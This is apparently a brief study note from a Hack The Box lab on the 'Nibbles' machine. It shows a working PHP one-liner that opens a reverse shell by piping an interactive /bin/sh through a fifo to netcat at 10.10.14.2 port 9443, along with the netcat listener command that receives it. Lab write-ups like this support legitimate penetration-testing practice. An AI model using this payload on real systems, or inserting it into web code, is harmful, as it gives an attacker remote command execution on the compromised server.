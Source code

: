 I don't know where are the previous notes but we will continue where we left off and find the other info on our own. 

```php
<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.2 9443 >/tmp/f"); ?>
```

- This is a PHP script for starting a reverse shell on a website or web app we are using this on nibbles which is a php vulnerable web app 

```bash
0xdf@htb[/htb]$ nc -lvnp 9443

listening on [any] 9443 ...
```

- This is the netcat we can use to listen on our reverse shell that we uploaded 